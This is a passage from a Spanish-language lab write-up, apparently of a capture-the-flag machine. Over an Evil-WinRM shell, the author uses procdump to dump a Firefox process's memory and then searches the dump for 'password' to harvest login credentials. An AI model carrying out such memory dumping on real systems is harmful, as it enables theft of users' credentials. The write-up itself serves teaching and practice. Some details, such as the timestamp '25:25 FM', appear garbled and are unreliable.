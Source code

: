 Bien, tenemos varias cositas para ir detrás de **Firefox**, podemos aprovechar esos procesos para dumpear lo que esta pasando mientras están activos, para esto podemos usar [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), así que descarguémoslo (en el anterior link esta también el binario) yyy subámoslo a la máquina:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Videos> dir 

    Directory: C:\Users\Chase\Videos

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2021  25:25 FM         725368 procdump.exe
```

Entonces, tomemos uno de los procesos que esta ejecutando **Firefox**, como por ejemplo el primero:

```powershell
*Evil-WinRM* PS C:\> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName  
-------  ------    -----      -----     ------     --  -- -----------  
...
   1052      70   149408     224568       6.69   6184   1 firefox
...
```

Sacamos el **Id** y ejecutamos el dumpeo:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Videos> .\procdump.exe -ma 6184
```

> `-ma` : Write a dump file with all process memory.

```powershell
[02:14:28] Dump 1 initiated: C:\Users\Chase\Videos\firefox.exe_210613_021428.dmp
[02:14:28] Dump 1 writing: Estimated dump file size is 508 MB.
[02:14:28] Dump 1 complete: 509 MB written in 0.6 seconds
[02:14:29] Dump count reached.
```

Y obtenemos:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Videos> dir

    Directory: C:\Users\Chase\Videos

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2021  25:25 FM      520222307 firefox.exe_210613_021428.dmp
```

Bien, pues ahora nos queda jugar con el como cualquier archivo con información...

Despues de un rato, jugando con [Select-String](https://antjanus.com/blog/web-development-tutorials/how-to-grep-in-powershell/) (similar al **grep** de toda la vida, pero para **PowerShell**) filtrando por "**password**" encontramos unas credenciales que están intentando iniciar sesión en el login que ya conocimos:
